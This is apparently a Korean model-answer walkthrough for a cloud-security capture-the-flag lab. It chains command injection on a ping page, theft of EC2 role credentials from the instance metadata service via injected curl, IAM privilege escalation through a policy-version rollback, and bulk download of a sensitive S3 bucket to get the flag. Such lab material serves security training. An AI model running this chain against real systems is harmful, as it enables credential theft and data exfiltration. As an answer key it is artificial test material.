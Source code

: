 # [policy_rollback_rce] 모범 답안

1. 웹사이트에 RCE취약점이 발생하는 것을 확인하세요. 단순한 ping test화면 같지만 command injection을 통해 RCE가 발생하게 된다.
```bash
; ls
```

2. 인스턴스에서 IMDSv2를 사용하기 때문이 이를 이용하기 위한 토큰을 발급한 후 메타데이터서비스에 접근한다
```bash
; TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"); curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/
```

3. 메타데이터서비스를 통해 인스턴스에 할당된 역할을 확인할 수 있다.
```bash
; TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"); curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/policy-rollback-rce-ec2-role
```

4. 얻은 자격증명을 자신의 프로필에 등록해준다
```bash
aws configure --profile rce_server
```

5. 해당 역할의 상세 정보를 먼저 확인한다
```bash
aws sts get-caller-identity --profile rce_server
```
- 이를 통해 역할의 arn과 이름정보를 확인할 수 있다.

6. 역할에 연결된 정책을 확인해본다.
```bash
aws iam list-attached-role-policies --role-name <역할 이름> --profile rce_server
```
해당 역할에 연결된 s3manager라는 이름의 정책 이름을 확인할 수 있다.

7. 정책의 버전을 확인해본다.
```bash
aws iam-get-policy --policy-arn <정책의 arn> --profile rce_server
```
정책의 버전이 현재 v1인것을 확인할 수 있다.

8. 현재 정책 버전의 권한을 확인해본다.

```bash
aws iam get-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v1
```
현재 버전에 `iam:SetDefaultPolicyVersion`이 존재하는 것을 확인 -> 다른 버전의 정책으로 교체 가능

9. 다른 버전의 정책을 확인해본다.
```bash
aws iam get-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v2
```
v2의 정책에 s3관련 권한이 모두 할당되있는 것을 확인할 수 있다.

10. v2의 정책으로 교체해준다.
```bash
aws iam set-default-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v2
```

11. S3에 접근이 가능해졌고 기밀데이터를 유출한다.
```bash
aws s3 ls

aws s3 ls s3://policy-rollback-rce-sensitive-data --profile rce_server

aws s3 sync s3://policy-rollback-rce-sensitive-data ./ --profile rce_server
```
flag.txt를 받아올 수 있다.

`flag` : FLAG{pO1iCy_rollb4CK_rcE_5uCCeS5}
